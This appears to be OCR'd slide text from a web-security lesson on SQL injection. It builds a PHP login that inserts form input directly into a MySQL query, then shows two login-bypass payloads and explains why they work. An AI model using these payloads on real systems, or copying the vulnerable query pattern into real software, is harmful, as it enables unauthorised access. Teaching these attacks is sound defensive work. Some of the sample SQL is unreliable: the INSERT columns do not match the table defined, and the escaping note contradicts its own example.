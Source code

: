 Creating a SQL Database
Go to your MySQL Interpreter (either CLI, MySQL Workbench, or PHP)
CREATE DATABASE websec;
Now create a table inside it
CREATE TABLE websec.users (	id int NOT NULL AUTO_INCREMENT,	username varchar(100) NOT NULL,	password varchar(100),	signature varchar(255),	PRIMARY KEY (id));^  Sad SQL syntax is sad

Add some data in your table
INSERT INTO users (first_name,last_name,signature)	VALUES (‘Arthur’, ‘Bathrobe’, ‘Is there any tea on this spaceship?’);
INSERT INTO users (first_name,last_name,signature)	VALUES (‘Ford’, ‘Betelgeuse’, ‘Don\’t panic... don\’t panic...’);
NOTE: quotes are escaped by doubling, not one double-quote, but two single-quotes
“But everyone told us not to store passwords as plaintext”
They were right, but did they tell you what you should use?
Not important right now, this will be a topic for another lesson
Creating a SQL Database

HTML Form with:
<form action=’login.php’ method=’POST’>
    <input type=’text’ name=’user’>
    <input type=’password’ name=’pass’>
Form should POST credentials to PHP page
$user = $_POST[‘user’];
$pass = $_POST[‘pass’];
PHP page should check if user exists
$con->query(“SELECT * FROM users WHERE username=’$user’ AND password=’$pass’”);
num_rows > 0: display welcome message
else: display error message
Login Form

Login Form - EXPLOIT 
Can you login as ‘Arthur’ without knowing his password?
Query:	SELECT * FROM users WHERE username=’$user’ AND password=’$pass’
Payload:
username:		Arthur’ -- -
password: 		anything

Why does this work?
SELECT * FROM users WHERE username=’Arthur’ -- -’ AND password=’anything’
SELECT * FROM users WHERE username=’Arthur’ -- -’ AND password=’anything’										(this is all commented out)


Login Form - EXPLOIT 
What if you don’t know any username?
Query:	SELECT * FROM users WHERE username=’$user’ AND password=’$pass’
Payload:
username: 		any
password: 		a’ OR ‘b’=’b
Why does this work?
SELECT * FROM users WHERE username=’any’ AND password=’a’ OR ‘b’=’b’
SELECT * FROM users WHERE username=’any’ AND password=’a’ OR ‘b’=’b’
SELECT * FROM users WHERE ( username=’any’ AND password=’a’ ) OR ‘b’=’b’
Why did we inject the password field here? (Hint: operator precedence)
(If you have a 40+ year old Facebook friend, you’ve seen plenty of that)
